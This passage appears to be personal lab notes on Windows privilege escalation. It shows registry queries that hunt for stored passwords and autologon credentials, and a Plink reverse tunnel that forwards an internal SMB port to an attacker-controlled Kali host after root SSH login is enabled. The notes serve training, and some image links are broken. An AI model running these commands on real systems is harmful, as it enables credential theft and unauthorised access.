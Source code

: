 - We find tha**t `139` and `445` are open**
- Meaning `smb` service for sharing files
- Note:- **This port is open only internally, we see it open from external kali machine in nmap scan because this machine is broken now**
- ==If we have some credentials, we can login using `crackmapexec`, etc with **SMB mode**==

# Registry PrivEsc
---
- `reg query HKLM /f password /t REG_SZ /s`
- `reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"`
![[Pasted image 20250413161756.png]]
![[Pasted image 20250413161817.


# Port Forwarding Using Plink.exe
---
- **SSH backend client for putty**
- https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html
- Transfer using `SimpleHTTPServer80`or `python3 -m http server`
- Download using `cerutil`
	- ![[Pasted image 20250413162216.png]]
- **On Kali**
---
- `sudo apt install ssh` => If not installed
- `sudo vi /etc/ssh/sshd_config`
	- Uncomment `PermitRootLogin`and `Yes`
		- ![[Pasted image 20250413162326.png]]
- `service ssh restart`

- **On Windows**
- ---
- `plink.exe -l root -pw toor -R 445:127.0.0.1:445 10.10.14.5`
	- `l`: user
	- `pw`: password
	- `R`: remote
- Keep hitting enter
	- ![[Pasted image 20250413162541.png]]


# WinEXE
---
- **Run commands on windows**
- Let's try same password for **Administrator**
- Bad Shell :(
- ![[Pasted image 20250413162741.png]]